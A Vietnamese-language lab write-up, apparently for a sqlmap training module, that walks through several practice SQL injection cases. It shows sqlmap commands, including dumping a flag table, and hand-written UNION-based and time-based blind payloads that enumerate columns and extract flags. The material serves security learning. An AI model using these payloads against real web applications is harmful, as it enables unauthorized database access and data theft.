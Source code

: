 <h1>Running SQLMap on an HTTP Request</h1>

![image](https://github.com/user-attachments/assets/f7e4c7f3-c852-47df-afe8-caccbe23cbe6)

![image](https://github.com/user-attachments/assets/581a802c-657d-48ff-8332-b769a30ccd68)

Giao diện web khi tôi truy cập vào:

![image](https://github.com/user-attachments/assets/cb955abc-53d3-4025-8739-cc46f61a99cb)

Bắt đầu với case2:

![image](https://github.com/user-attachments/assets/fc062b3f-0301-4010-952f-5f3bb8072ed3)

Sau khi submit id=1 thì ra cái này:

![image](https://github.com/user-attachments/assets/6029ae27-e0ae-4d36-a79e-92e63ab32a09)

Tôi dùng burp bắt request lại và đưa vào file req.txt:

![image](https://github.com/user-attachments/assets/ae7e65e6-41f7-469c-9fb9-aab0779138b2)

Rồi tôi chạy `sqlmap -r req.txt`:

![image](https://github.com/user-attachments/assets/826c2b9c-64a5-41b1-8f43-4a5d9fb20182)

![image](https://github.com/user-attachments/assets/3b183864-9dac-4c31-87d5-13e6ea3ba2f9)

Và kết quả nhận lại 3 loại sqli, tôi tin chọn dùng UNION query cho nhanh, đầu tiên là thử payload `1 UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9 -- -` để check thử:

![image](https://github.com/user-attachments/assets/8a9c8389-b0d0-4696-81ba-fa7d49d658b8)

Thấy chạy ổn ổn thì tôi sẽ xem thử trong bảng flag2 có những cột nào bằng payload `1 UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6,7,8,9 from INFORMATION_SCHEMA.COLUMNS where table_name='flag2'-- -`:

![image](https://github.com/user-attachments/assets/acf11b04-e543-4808-855e-39e5363e8455)

Nhìn vào tôi thấy được bảng flag2 thuộc testdb và gồm có 2 cột là id và content, dùng `1 UNION select 1, id, content, 4,5,6,7,8,9 from flag2-- -` để lấy content và id và flag2:

![image](https://github.com/user-attachments/assets/6757d16b-2421-44aa-8bec-805539cbbebf)

Đối với case3 thì cái id lại nằm trong cookie nên sqlmap không nhận ra được:

![image](https://github.com/user-attachments/assets/6c154c94-0ab1-4e66-a51d-332ad23c911d)

![image](https://github.com/user-attachments/assets/1a0f69dd-f446-4f97-8f02-4b371a1b010e)

Và sqlmap cũng bảo thêm cái --crawl vào nên tôi chạy lệnh `sqlmap -r req.txt --crawl=2 --batch` và kết quả đây:

![image](https://github.com/user-attachments/assets/e2dbdba7-48a0-4de8-8596-720663d37f13)

Lại như trước thôi:

![image](https://github.com/user-attachments/assets/4e470eec-07b9-4553-82c1-32d749ad30ef)

![image](https://github.com/user-attachments/assets/b6ae55c7-47ff-49f3-9d94-0b70f9371421)

case4 thì có id nằm trong json, dù thế thì vẫn như cũ thôi:

![image](https://github.com/user-attachments/assets/04b09f8e-4b57-4350-81e1-d6299cbb4e62)

![image](https://github.com/user-attachments/assets/4299aa7b-9871-4671-9796-0aa6436b29e5)

![image](https://github.com/user-attachments/assets/8908b8dc-ab87-4208-8612-e49629c71936)

<h1>Attack Tuning</h1>

![image](https://github.com/user-attachments/assets/6ff11b59-8e34-4209-9ca2-1bd14fcc0412)

TIếp tục với các case tiếp theo, case số 5:

![image](https://github.com/user-attachments/assets/3ccfda26-0af9-466f-90e3-ce86c69813c9)

![image](https://github.com/user-attachments/assets/8efe7a43-d862-45d6-a721-e41a805f27fb)

Method là GET, lúc đầu sqlmap chạy không ra, tôi thêm --level và --risk cho chắc cú `sqlmap -r req.txt --batch --level=5 --risk=3` và đây là kết quả, 1 boolean và 1 blind:

![image](https://github.com/user-attachments/assets/fe03fe49-79c9-46b0-852d-e1ff796e67d5)

Tôi quyết định dùng payload này `id=1 OR (SELECT 1 FROM (SELECT CASE WHEN (SUBSTRING((SELECT content FROM flag5 LIMIT 1), 1, 1)='a') THEN SLEEP(10) ELSE 0 END)aFuZ)` và dùng python để chạy payload:

![image](https://github.com/user-attachments/assets/6010df7c-6de7-4773-80a6-1c48378fdcb6)

![image](https://github.com/user-attachments/assets/2f9f1896-8868-4bd9-94a2-a2fef8f0ee82)

Cay

![image](https://github.com/user-attachments/assets/88e4777d-fc2c-42a6-b062-b8848b7466f8)

Dùng `sqlmap -r req.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='``)'` thêm cái --dump để ra luôn kết quả:

![image](https://github.com/user-attachments/assets/1dd466eb-2600-4591-a7e2-a2ff51a589b4)

![image](https://github.com/user-attachments/assets/737f3a14-1e42-4029-b931-2dcdb7cfc85d)

Nếu chạy không có --dump thì ra các loại sqli:

![image](https://github.com/user-attachments/assets/f230fb5d-6178-4c1c-8126-cb1363c690a5)

Tiếp theo là case7:

![image](https://github.com/user-attachments/assets/c727ed49-ae41-4577-85f4-47f8afc999c0)




